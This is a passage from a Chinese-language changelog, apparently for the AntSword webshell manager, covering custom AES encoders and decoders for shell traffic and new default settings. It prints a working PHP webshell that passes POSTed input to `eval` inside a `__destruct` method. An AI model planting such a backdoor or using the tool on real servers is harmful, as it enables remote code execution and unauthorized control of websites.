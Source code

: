 * 可以用 `AES-256-CFB` 编码器, 对请求包进行加密, 返回包加密使用 `AES-128-ECB` 解码器

* 也可以用 `AES-128-ECB` 编码器, 对请求包进行加密, 返回包加密使用 `AES-256-CFB` 解码器

当然, 你可以根据自己的喜好, 用自己喜欢的 AES 加密方式, 这些怎么组合, 都看你。你要不喜欢用 AES, 你想用什么就用什么。

* 支持加载用户自定义解码器, 同编码器一样, 现在可以加载用户自己自定义的解码器了, 以PHP为例, 加载位置为 `antData/encoders/php/decoder/`

### 数据管理

* 「添加数据」时自动载入「默认设置」中「数据管理」全局配置内容

![adefault_shellmanager_2.png](https://i.loli.net/2019/04/30/5cc83fb205051.png)

### 其它

* 「默认设置」新增「数据管理」设置, 可配置「是否忽略HTTPS证书」、「默认请求超时时长」、「默认 HTTP Header」和「默认 HTTP Body」

> 该配置项仅在「添加数据」时生效，不影响已有配置的 Shell。在添加数据界面修改相应的值, 仅对当前 Shell 配置产生影响，不会影响到默认配置

![adefault_shellmanager_1.png](https://i.loli.net/2019/04/30/5cc83fafdf0d8.png)

* 新增第三方库 marked 0.6.2 用于 markdown 渲染
* 更新提示窗口新增 ReleaseNote 显示(缩放显示,图片看不清可直接前往 github 查看详细更新日志), 新增 「更新日志」按钮(点击后直接打开 github release 页)
* 「编码管理」新增「获取更多」按钮, 打开浏览器访问 AwesomeEncoder(自定义编码器分享), 如果你有比较好的 Encoder, 欢迎向这个仓库提PR
* 「编码管理」新增解码器管理, 可创建自定义解码器

![aencoder.png](https://i.loli.net/2019/05/13/5cd95654c75ac23085.png)

* 新增第三方库 `crypto-js` 3.1.9-1 , 可以更方便的进行各种加解密处理了

> nodejs 自带 `crypto` 库, 也可使用 `crypto-js` 这个库来进行加密处理, 这个第三方库使用起来相对更简单一些, 但同时限制也会多一些, 自行取舍

## 2019/04/27 `v(2.1.1)`

### 核心模块

* 新增「解码器」(目前仅支持 PHP)

> 将返回数据包进行编码/加密

* 新增 PHP `base64`、`rot13` 解码器

* 修复使用 `__destruct` 类型 shell 时 解码器不生效的 Bug (thx @scanf)

> 取消 `register_shutdown_function` 改为显式调用 `asoutput`

测试 Shell 如下:

```
<?php
class Test{
  function __destruct(){
    @eval($_POST['ant']);
  }
}
$test = new Test;
?>
```


[medicaean-github]: https://github.com/Medicean
[peablog-github]: https://github.com/peablog
[loveshell-github]: https://github.com/loveshell
[Lupino-github]: https://github.com/Lupino